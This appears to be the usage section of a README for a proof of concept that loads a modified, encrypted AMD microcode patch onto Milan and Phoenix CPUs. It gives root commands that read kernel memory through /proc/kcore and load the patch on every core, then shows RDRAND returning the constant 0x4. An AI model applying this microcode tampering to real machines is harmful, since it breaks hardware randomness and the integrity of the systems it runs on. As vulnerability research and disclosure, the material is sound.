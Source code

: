 ## How to use

Tested on `AMD EPYC 7B13 64-Core Processor` (Milan) and `AMD Ryzen 9 7940HS w/ Radeon 780M Graphics` (Phoenix).

As root:
```
# Load the microcode patch on every CPU
PAGE_OFFSET_BASE=$(
    objdump -s --start-address=0x$(cat /proc/kallsyms |
    awk '/D page_offset_base/{print $1}') /proc/kcore |
    awk '/ffff/{print $2 $3; exit}' |
    sed 's/\(..\)\(..\)\(..\)\(..\)\(..\)\(..\)\(..\)\(..\)/\8\7\6\5\4\3\2\1/')
for i in `seq 0 $(nproc)`; do ./ucode_loader ./milan_rdrand_carryset_encrypted.bin 0x${PAGE_OFFSET_BASE:?} $i; done

# Test rdrand
./rdrand_test
repeated value!
0x4
0x4
```
